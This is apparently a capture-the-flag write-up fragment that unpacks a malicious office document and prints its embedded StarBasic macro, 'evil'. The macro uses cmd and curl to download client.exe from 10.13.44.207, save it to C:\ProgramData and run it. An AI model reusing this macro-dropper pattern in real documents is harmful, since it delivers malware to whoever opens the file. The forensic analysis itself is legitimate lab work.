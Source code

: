 ```bash
   creating: Configurations2/toolbar/
   creating: Configurations2/progressbar/
   creating: Configurations2/popupmenu/
   creating: Configurations2/menubar/
  inflating: styles.xml              
  inflating: manifest.rdf            
  inflating: content.xml             
  inflating: meta.xml                
 extracting: Thumbnails/thumbnail.png  
  inflating: META-INF/manifest.xml
```

```bash
:~/Pressed#  ls
script-lc.xml  Standard
```

<h4>script-lc.xml</h4>

```bash
:~/Pressed#  cat script-lc.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE library:libraries PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "libraries.dtd">
<library:libraries xmlns:library="http://openoffice.org/2000/library" xmlns:xlink="http://www.w3.org/1999/xlink">
 <library:library library:name="Standard" library:link="false"/>
</library:libraries>
```

<h4>evil.xml</h4>
<p>

- cmd /c curl 10.13.44.207/client.exe -o C:\ProgramData\client.exe
- echo VEhNe0FfQzJfTUF5Xw==<br>
- C:\\ProgramData\\client.ex</p>

</p>

```bash
:~/Pressed# ls
evil.xml  script-lb.xml
```

```bash
:~/Pressed#  cat evil.xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="evil" script:language="StarBasic" script:moduleType="normal">Sub Main

    Shell(&quot;cmd /c curl 10.13.44.207/client.exe -o C:\ProgramData\client.exe&quot;)
    Shell(&quot;cmd /c echo VEhNe0FfQzJfTUF5Xw==&quot;)
    Shell(&quot;C:\\ProgramData\\client.exe&quot;)
    
End Sub
```
